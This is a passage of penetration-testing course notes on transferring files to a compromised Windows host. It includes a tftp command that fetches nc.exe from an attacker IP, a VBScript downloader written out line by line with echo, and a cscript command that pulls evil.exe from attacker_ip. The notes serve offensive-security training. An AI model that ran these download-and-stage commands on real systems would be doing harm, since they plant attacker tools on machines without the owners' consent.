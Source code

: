 OR, literally just use those commands in the txt file ^.  
  
THAT being said, if the **tftp** service is available on Win:  
```powershell
tftp -i <attack_ip> GET nc.exe
```
	-- should work  
  
  
Issues: [https://ubuntuforums.org/archive/index.php/t-2124610.html](https://ubuntuforums.org/archive/index.php/t-2124610.html)  



### Scripting Languages:

Leverage scripting engines such as:  
- VBScript[1](https://portal.offensive-security.com/courses/pen-200/books-and-videos/modal/modules/file-transfers/transferring-files-with-windows-hosts/windows-downloads-using-scripting-languages#fn1) (inWindows XP, 2003)  
- PowerShell (in Windows 7, 2008, and above)  
  
  
Ex **wget.vbs.txt**:  
```vb
echo strUrl = WScript.Arguments.Item(0) > wget.vbs  
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs  
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs  
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs  
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs  
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs  
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs  
echo  Err.Clear >> wget.vbs  
echo  Set http = Nothing >> wget.vbs  
echo  Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs  
echo  If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs  
echo  If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs  
echo  If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs  
echo  http.Open "GET", strURL, False >> wget.vbs  
echo  http.Send >> wget.vbs  
echo  varByteArray = http.ResponseBody >> wget.vbs  
echo  Set http = Nothing >> wget.vbs  
echo  Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs  
echo  Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs  
echo  strData = "" >> wget.vbs  
echo  strBuffer = "" >> wget.vbs  
echo  For lngCounter = 0 to UBound(varByteArray) >> wget.vbs  
echo  ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs  
echo  Next >> wget.vbs  
echo  ts.Close >> wget.vbs
```

We would then copy/paste these commands into the compromised comp's terminal and run the **wget.vbs** script:  
  
Run w/ **cscript**:  
```powershell
cscript wget.vbs http://attacker_ip/evil.exe evil.exe
```
